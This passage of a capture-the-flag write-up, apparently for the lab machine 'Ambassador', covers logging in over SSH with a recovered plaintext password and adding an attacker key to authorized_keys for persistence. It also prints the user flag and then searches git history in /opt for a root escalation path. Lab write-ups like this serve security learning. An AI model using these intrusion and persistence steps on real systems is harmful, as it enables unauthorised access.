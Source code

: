 
# User Flag

Developer's ssh password

![](/assets/obsidian/43ddfff1ef54ea1b90ac43694f1e8ceb.png)

`developer`:`anEnglishManInNewYork027468`

```bash
┌──(root㉿kali)-[~/ambassador]
└─# ssh developer@10.10.11.183 

developer@ambassador:~$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAA... root@kali' >> ~/.ssh/authorized_keys

developer@ambassador:~$ cat user.txt
026d3f8d33bccebe2c4665ceaf1ed300
```


# Root Flag

There's an app in `/opt`

```bash
developer@ambassador:/opt/my-app$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1 22:13 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
developer@ambassador:/opt/my-app$ 
```

Check Git history

```bash
developer@ambassador:/opt/my-app$ git log
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000
```